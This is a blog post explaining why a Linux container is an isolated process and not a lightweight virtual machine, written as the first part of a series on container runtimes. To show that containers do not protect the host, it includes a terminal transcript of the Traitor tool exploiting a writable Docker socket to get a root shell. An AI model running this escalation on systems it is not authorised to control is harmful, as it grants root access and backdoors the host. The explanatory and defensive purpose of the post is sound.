 ```yaml
---
title: A container is not a VM
date: 2021-05-10
---
```


For me, one of the most interesting technologies used by developers are containers. They're so popular that all programmers have used it, or at least heard about them. Yet, most people don't really know what they are, or how they work. We all have probably heard a definition similar to this one, — this one was given to me by one of my professors at university, but it's also [the definition Google gives to us](https://cloud.google.com/containers)—

> They are kind of like a more light-weight virtual machine

This is the first part of a series where I want to cover various topics about how Linux containers (Docker, Podman, ...) work based on my experience developing my own container runtime, [devenv](https://github.com/GuillemCastro/devenv).

## A container is not a VM

While not completely false, this is a very deceiving definition. Not only there use different technologies, but both (VMs and containers) also solve different problems —different solutions for different problems—, and behave completely differently. It's not a coincidence that containers seem hard to use at first, "*Why the container is killed when I press Ctrl+C? That doesn't happen with my VMs!*".

So, what is a container? A container is simply **a process** that we execute in an isolated environment. A container needs two things for creating an isolated environment,

* A root filesystem (rootfs), often called "images". Think of it as an operating system minus the kernel, anything else you'd find on a regular Linux machine is included (bash, libc, etc.). As for desktop/server installations they also come in distributions, so you can find rootfs for Ubuntu, CentOS, Alpine, etc. When used to distribute applications or services, the rootfs will also include them.

* A way to trick the process into thinking that it is alone in the machine. The process won't be able to interact with other processes, and won't be able to access your files.

Before I said that it's not false that a container is similar to a virtual machine, since also they also are isolated environments that execute one process, there are some differences though,

* The isolation is achieved by means of virtualization. The whole system, everything from the CPU to the memory or the external devices, is virtualized. We can even execute code meant for other architectures.

* In a VM the process that gets executed is almost always an operating system or a special program that can be booted by a bootloader.

For VMs isolation is a consequence of virtualization, for containers isolation is their main purpose. VMs isolate a whole system, containers just a process. The big difference is the problem they try to solve. Containers try to solve the problem "it runs on my machine/environment", by isolating the process from the rest of the machine, and packaging everything it needs (including an almost complete Linux distro, excluding the kernel).

Additionally, there are also security concerns. As a general rule, you should never run untrusted code on your machine. There's no a safe way to execute it. If you *really* need to do it, it's better to do it in a virtual machine rather than directly in your machine. Because, yes, running something inside a container is not safer that outside of it. For example, Docker can be used to gain root access,

```
> id
uid=1000(castrog) gid=1000(castrog) groups=1000(castrog),27(sudo),132(libvirt),998(docker)

> traitor --exploit docker:writable-socket

 888                    d8b 888                    
 888                    Y8P 888                    
 888                        888                    
 888888 888d888 8888b.  888 888888 .d88b.  888d888 
 888    888P"      "88b 888 888   d88""88b 888P"   
 888    888    .d888888 888 888   888  888 888     
 Y88b.  888    888  888 888 Y88b. Y88..88P 888     
  "Y888 888    "Y888888 888  "Y888 "Y88P"  888     
    v0.0.0 | https://github.com/liamg/traitor 
 
[+] Assessing machine state...
[+] Checking for opportunities...
[+][docker:writable-socket] Docker socket at /var/run/docker.sock is writable!
[+][docker:writable-socket] Opportunity found, trying to exploit it...
[+][docker:writable-socket] Building malicious docker image...
[+][docker:writable-socket] Creating evil container...
[+][docker:writable-socket] Starting evil container...
[+][docker:writable-socket] Backdooring host at /usr/bin/SD0VGVY-w from guest...
[+][docker:writable-socket] Checking permissions...
[+][docker:writable-socket] Starting root shell...
[+][docker:writable-socket] Removing backdoor from host...
[+][docker:writable-socket] Removing container...
[+][docker:writable-socket] Cleaning up image...
[+][docker:writable-socket] Dropping you into a shell...

# id
uid=0(root) gid=0(root) groups=0(root)
```

[Traitor](https://github.com/liamg/traitor) is a tool to test known privilege escalation bugs on Linux. In this case, I tried exploiting the "writable-socket" exploit for Docker. If Docker's socket `/var/run/docker.sock` is writable (by default it is for the `docker` group, into which they recommend to add your user), with an specially crafted container we can gain root permissions.

In the next post of this series, we will discuss the Linux kernel features that make containers possible.